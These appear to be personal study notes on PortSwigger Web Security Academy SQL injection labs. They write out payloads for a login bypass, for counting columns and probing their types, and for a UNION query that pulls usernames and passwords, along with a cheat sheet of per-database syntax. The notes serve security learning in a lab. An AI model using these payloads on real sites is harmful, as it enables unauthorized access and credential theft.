


1. SQL Injection -Login Vulnerability (Lab #2 SQL injection vulnerability allowing login bypass)

Analysis:
1st Enter a ''' to see if the application breaks

then where the username is known in our case administrator
enter administrator'-- as the username the password can be anything

then the application will login after interpretting the " -- " as comment

the following SQL Query will run:
SELECT from 'firstname' FROM users WHERE username = 'administrator'-- and password ='admin'

2. SQL Injection Query to determine the number of columns returned by an attack then use that to read data from other tables

End Goal: Determine the number of columns returned by the query

SQLi Attack (Way 1)
The following command runs:
select ? from table1 UNION select NULL
-> error : if you get and errot then you have ann incorrect nnumber of columns
e.g https://ac0e1f081f98328fc0b00f2d004300ac.web-security-academy.net/filter?category=Gifts'UNION select NULL--
select ? from table1 UNION select NULL, NULL, NULL..
-> keeping adding the nulls until you get a 200 response code that shows that you have the correct number of columns
https://ac0e1f081f98328fc0b00f2d004300ac.web-security-academy.net/filter?category=Gifts'UNION select NULL,NULL,NULL--
Web Query : GET /filter?category=Gifts'+UNION+select+NULL,+NULL,+NULL--+ 
Number of columns equals : 3
Using Burp:

SQLi Attack(Way #2)
Using 'order-by'
select a,b from table1 order by 3
where three is the number of column we are ordering by f you keeping increasing that number till you get an errr it shows you have reached the maximum number of column and therefore the totoal columns available in that table

https://ac501f031fb27988c01106bf008d00f4.web-security-academy.net/filter?category=Pets' ORDER BY 4--
The above generates an error because there's no forth column to order anything by mean we reached our maximum number of columns which is 3

3. Determin the data type of the columns
https://acd41ff61f229bd9c078074400f100af.web-security-academy.net/filter?category=Lifestyle'UNION select NULL,'r3AijW',NULL--
each null postion represents a column of a particular data type
iterate the position of the string until you get a 200 Ok
meaning the data type you have inputted in this case a string"r3Aijw' corresponds with the data type of that particular column

4. Retrieving data from other tables using an SQL UNION Injection attack
To do this you must first do steps 2 and 3 i.e determine the number of columns in the a table and determine the data type of the columns

https://ac961f081fc7cda7c06e47f20044001d.web-security-academy.net/filter?category=Gifts'UNION select username,password FROM users WHERE username='administrator'--
NB// The reason why the above query works is because:
a) The table gifts and user both contain 2 columns and hence the need for step 1 where we enumerated the number of columns we were looking for a table that contains
the same number of columns as our user table that contains the username and password columns
b) The password which is the second column of database users is of type string just like the description column in table gifts which is the second column and of type string

5. Output data from other tables 

Goal : retrieve usernames and passwords from table users
- Determine the type of database in use because different databases use different operators to perform database actions see cheatsheet below:
e.g string concatenation
String concatenation

You can concatenate together multiple strings to make a single string.
Oracle 	'foo'||'bar'
Microsoft 	'foo'+'bar'
PostgreSQL 	'foo'||'bar'
MySQL 	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')

Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
Oracle 	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft 	SELECT @@version
PostgreSQL 	SELECT version()
MySQL 	SELECT @@version 

In a query:
https://ac111f201ee804f0c12017f4004f002f.web-security-academy.net/filter?category=Tech+gifts'UNION select NULL,version()--
Query and database details get reflected on the page

with our database version in mind retrieve all username and passwords as follows:
https://acc91fed1f128145c03d103200d8002c.web-security-academy.net/filter?category=Tech+gifts'UNION select NULL,username|| '*' || password from users--